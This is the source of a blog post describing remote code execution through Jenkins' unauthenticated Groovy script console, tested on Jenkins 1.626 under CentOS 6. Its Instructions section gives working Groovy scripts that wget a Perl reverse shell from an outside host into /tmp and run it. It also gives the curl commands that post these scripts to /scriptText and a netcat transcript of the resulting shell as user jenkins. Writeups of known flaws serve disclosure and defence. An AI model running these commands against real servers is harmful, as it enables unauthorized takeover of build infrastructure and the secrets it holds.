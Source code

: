 ```yaml
---
layout: blog_item
title:  "Jenkins RCE via Unauthenticated API"
date:   2015-08-18 10:08:10
author: Arr0way
description: 'Jenkins RCE via Unauthenticated API, an attacker can execute shell commands via curl requests against the Jenkins API script console'
categories: [Exploit]
tags:
- Jenkins
- Exploit
- RCE
---
```


* list element with functor item                                                
 {:toc} 

## Description: 

[Jenkins](https://jenkins-ci.org/) (continuous intergration server) default install allows for unauthenticated access to the API on the Jenkins Master Server (default behavour). Allowing unauthenticated access to the groovy script console, allowing an attacker to execute shell commands and / or connect back with a reverse shell.

<div class="note warning">
  <h5>DISCLAIMER</h5>
  <p>Disclaimer, I didn't discover this exploit, it has been discovered before... This vulnerability has been disclosed before to the Jenkins CI developers.</p>
</div>


![Jenkins RCE API Exploit](https://i.imgur.com/lTas7UD.gif)

## Tested Versions 

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Software</th>
      <th>Version</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>Jenkins</code></p>
      </td>
      <td>
            <p>Ver 1.626</p>
      </td>
       </tr>
      </tbody>
</table>
</div>

## Tested Operating Systems 

An effort to test all affected OS's, showing the severity of the exploit (e.g. jenkins shell) for the default OS packaged version. 

<div>
<table>
  <thead>
    <tr>
      <th>Operating System</th>
      <th>Default Package Expoit</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>CentOS 6 - Jenkins RPM via Jenkins YUM Repo</code></p>
      </td>
      <td>
            <p>shell as user jenkins</p>
      </td>
      </tr>
      </tbody>
</table>
</div>

## Instructions 

This is really basic, I made a few small groovy scripts to execute the shell commands I wanted via Jenkins API (I recall having some issues runing more than one command at a time via groovy), I then executed them using Curl. 

### groovy script wget shell

Script to wget perl reverse shell to target and copy it to /tmp/shell. 

{% highlight java %}
   def command = "wget http://192.168.145.128/perl-reverse-shell.pl -O /tmp/shell"
   def proc = command.execute()
   proc.waitFor()
   
   println "Process exit code: ${proc.exitValue()}"
   println "Std Err: ${proc.err.text}"
   println "Std Out: ${proc.in.text}"
{% endhighlight %}

<div class="note tip">
  <h5>Jenkins requires /tmp to have exec perms</h5>
  <p>By default Jenkins requires <code>/tmp</code> to have the execute mount option set, so you should be safe to land shells there on Jenkins servers.</p>
</div>


### groovy script execute shell command

{% highlight java %}
    def command = "perl /tmp/shell"
    def proc = command.execute()
    proc.waitFor()              

    println "Process exit code: ${proc.exitValue()}"
    println "Std Err: ${proc.err.text}"
    println "Std Out: ${proc.in.text}"
{% endhighlight %}

### Execute the Groovy Scripts via scriptText Jenkins API

{% highlight bash %}
curl -d "script=$(./wget.groovy)" -X POST http://192.168.30.130:8080/scriptText
curl --data-urlencode  "script=$(<./execute.groovy)" -X POST http://192.168.30.130:8080/scriptText
{% endhighlight %} 

### Get Shell 

{% highlight bash %}
    [root:~/pwn-jenkins]# nc -v -n -l -p 443
    listening on [any] 443 ...
    connect to [192.168.30.128] from (UNKNOWN) [192.168.30.130] 42340
     21:16:17 up 15:17,  1 user,  load average: 0.23, 0.31, 0.17
     USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
     root     tty1     -                05:59    3:40   0.12s  0.12s -bash
     Linux localhost.localdomain 2.6.32-573.3.1.el6.x86_64 #1 SMP Thu Aug 13 22:55:16 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     /
     apache: cannot set terminal process group (-1): Invalid argument
     apache: no job control in this shell
     apache-4.1$ whoami
     whoami
     jenkins
     apache-4.1$ id
     id
     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     apache-4.1$
{% endhighlight %}

## More Resources 

More links about this vuln and similar Jenkins vulns below:

* [http://leonjza.github.io/blog/2015/05/26/jenkins-to-meterpreter-toying-with-powersploit/](http://leonjza.github.io/blog/2015/05/26/jenkins-to-meterpreter-toying-with-powersploit/)
* [http://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console](http://leonjza.github.io/blog/2015/05/26/jenkins-to-meterpreter-toying-with-powersploit/) 
